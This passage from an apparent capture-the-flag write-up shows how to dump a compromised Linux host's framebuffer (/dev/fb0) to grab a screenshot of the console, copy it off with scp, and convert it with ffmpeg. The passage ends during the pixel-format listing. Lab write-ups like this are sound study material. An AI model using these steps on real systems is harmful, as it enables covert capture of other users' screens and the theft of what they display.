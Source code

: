 {% highlight none linenos %}
$ @@cat /dev/fb0 > /tmp/screenshot.raw@@
$ @@cat /sys/class/graphics/fb0/virtual_size@@
@@@1176,885@@@
$
{% endhighlight %}

Once we have extracted a frame and saved it to the file `/tmp/screenshot.raw`, we can download it using `scp`.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@scp moshe@10.10.10.73:/tmp/screenshot.raw ./screenshot.raw@@
moshe@10.10.10.73's password: 
@@@screenshot.raw                                                                    100%@@@ 4065KB   2.4MB/s   00:01    
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ 
{% endhighlight %}

We can use `ffmpeg` to convert the captured frame to a displayable image format such as `JPEG`. We do this by executing `ffmpeg -pix_fmt [pixelFormat] -s 1176x885 -f rawvideo -i screenshot.raw -f singlejpeg screenshot.jpg` where `[pixelFormat]` is the [pixel format](https://en.wikipedia.org/wiki/Pixel_Format) we want. A pixel format defines how a sequence of bits should be grouped into pixels. For example, it could define that each pixel is represented by 8 bits for each of the three colors red, green and blue.

The `-s` flag is used to specify the width and height of the frame. Then, we use the `-f` and `-i` flags to point `ffmpeg` to the `screenshot.raw` file and instruct it that this file is in the `rawvideo` format. Thereafter, we use the `-f` flag again to specify that the output file should be a `JPEG` file. Note that we use the `-f` flag twice since it only applies to the subsequent file which is specified as an argument to `ffmpeg`.

The only thing the command is missing is the pixel format. We can list all available pixel formats using the `-pix_fmts` flag, as demonstrated below.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@ffmpeg -pix_fmts@@                                                                       
[...]
Pixel formats:
I.... = Supported Input  format for conversion
.O... = Supported Output format for conversion
..H.. = Hardware accelerated format
...P. = Paletted format
....B = Bitstream format
FLAGS NAME            NB_COMPONENTS BITS_PER_PIXEL
-----
IO... yuv420p                3            12
IO... yuyv422                3            16
IO... rgb24                  3            24
IO... bgr24                  3            24
IO... yuv422p                3            16
IO... yuv444p                3            24
IO... yuv410p                3             9
IO... yuv411p                3            12
IO... gray                   1             8
IO..B monow                  1             1
IO..B monob                  1             1
I..P. pal8                   1             8
IO... yuvj420p               3            12
IO... yuvj422p               3            16
IO... yuvj444p               3            24
IO... uyvy422                3            16
..... uyyvyy411              3            12